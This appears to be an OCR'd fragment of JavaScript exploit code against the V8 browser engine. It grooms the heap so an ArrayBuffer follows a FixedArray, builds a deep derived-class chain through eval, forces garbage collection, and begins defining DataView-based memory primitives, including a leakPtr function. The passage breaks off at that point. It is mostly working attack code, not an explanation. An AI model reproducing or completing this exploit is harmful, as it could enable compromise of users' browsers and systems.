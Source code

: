 ```python

            // this allocation will now directly follow the FixedArray allocation

            // made for `this.data`, which is where `array.elements` points to.

            this_.buffer = new ArrayBuffer(0x80);

            g_array[8] = this_.page_buffer;

        }

    }



    // try{

    var derived_n = eval(`(function derived_n(i) {

        if (i == 0) {

            return DerivedBase;

        }



        class DerivedN extends derived_n(i-1) {

            constructor() {

                super();

                return;

                ${"this.a=0;".repeat(tDerivedNCount)}

            }

        }



        return DerivedN;

    })`);



    gc();





    new (derived_n(tDerivedNDepth))();



    this.buffer_view = new DataView(this.buffer);

    this.leakPtr = function (obj) {

```